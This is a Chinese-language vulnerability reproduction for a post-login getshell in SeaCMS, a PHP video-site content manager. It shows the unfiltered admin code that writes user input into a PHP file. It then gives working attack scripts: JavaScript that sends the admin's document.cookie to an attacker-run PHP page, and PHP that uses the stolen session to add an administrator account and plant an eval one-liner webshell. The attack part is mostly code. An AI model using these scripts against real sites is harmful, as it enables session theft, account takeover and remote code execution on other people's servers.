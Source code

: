 seacms getshell
===============

一、漏洞简介
------------

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

二、漏洞影响
------------

三、复现过程
------------

后台代码如下

    <?php

    header('Content-Type:text/html;charset=utf-8');

    require_once(dirname(__FILE__)."/config.php");

    CheckPurview();

    if($action=="set")

    {

        $v= $_POST['v'];

        $ip = $_POST['ip'];

        $open=fopen("../data/admin/ip.php","w" );

        $str='<?php ';

        $str.='$v = "';

        $str.="$v";

        $str.='"; ';

        $str.='$ip = "';

        $str.="$ip";

        $str.='"; ';

        $str.=" ?>";

        fwrite($open,$str);

        fclose($open);

        ShowMsg("成功保存设置!","admin_ip.php");

        exit;

    }

    ?>

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

    # test.js

    var img = new Image();

    img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

    # test.php

    <?php

        function Requests($url, $data, $cookie = '', $type = 1){

            $ch = curl_init();

            $params[CURLOPT_URL] = $url;

               $params[CURLOPT_HEADER] = FALSE;

            $params[CURLOPT_SSL_VERIFYPEER] = false;

            $params[CURLOPT_SSL_VERIFYHOST] = false;

            $params[CURLOPT_RETURNTRANSFER] = true;

            if ($type === 1) {

                $params[CURLOPT_POST] = true;

                $params[CURLOPT_POSTFIELDS] = $data;

            }

            $params[CURLOPT_COOKIE] = $cookie;

            curl_setopt_array($ch, $params);

            $output = curl_exec($ch);

            file_put_contents('log.txt', $output, FILE_APPEND);

            curl_close($ch);

        }

        $C = $_GET['x'];

        $P = $_GET['p'];

        $P = substr($P, 0, strlen($P)-21);

        file_put_contents('c.txt', $C);

        file_put_contents('p.txt', $P);

        $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

        $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

        $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

        $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

        Requests($url_1, $data_1, $C);

        Requests($url_2, $data_2, $C);

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![](resource/Seacms后台getshell/media/rId24.png)

代码已经写进了后

![](resource/Seacms后台getshell/media/rId25.png)

管理员添加成功

![](resource/Seacms后台getshell/media/rId26.png)

\<

